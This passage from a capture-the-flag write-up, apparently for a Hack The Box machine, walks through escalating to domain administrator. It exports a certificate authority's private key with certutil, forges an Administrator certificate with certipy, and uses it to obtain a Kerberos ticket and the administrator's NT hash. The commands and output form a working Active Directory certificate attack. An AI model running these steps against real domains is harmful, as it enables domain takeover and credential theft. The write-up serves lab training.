#Successfully processed 1 files; Failed processing 0 files

```

We can try to read some typical things that we would want, perhaps root.txt or the SAM or SYSTEM hives, but we can't, this could be due to the SID for these being different.
```powershell
icacls C:\Users\Administrator\Desktop\root.txt
C:\Users\Administrator\Desktop\root.txt CERTIFICATE\Administrator:(F)
                                        NT AUTHORITY\SYSTEM:(I)(F)
                                        BUILTIN\Users:(I)(F)
                                        CERTIFICATE\Administrator:(I)(F)

```

We do have full access, but there's apparently some extra restriction going on with our access to this. However, if we run:
```powershell
certutil -store My
```

```
================ Certificate 2 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed
CertUtil: -store command completed successfully.
```

We havea Siginature test passed. This means we can export the private key and do the attack we talked about earlier.

```powershell
certutil -exportPFX My 75b2f4bbf31f108945147b466131bdca ca.pfx
```

Download the .pfx and we can use certipy to forge our admin ticket.
```bash
certipy forge -ca-pfx ca.pfx -upn Administrator -dc-ip 10.10.11.71

faketime -f +8hr $HOME/.local/bin/certipy auth -pfx administrator_forged.pfx -dc-ip 10.10.11.71 -domain certificate.htb
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator'
[*] Using principal: 'administrator@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certificate.htb': aad3b435b51404eeaad3b435b51404ee:<Redacted>
```

And that is a fantastic box. 


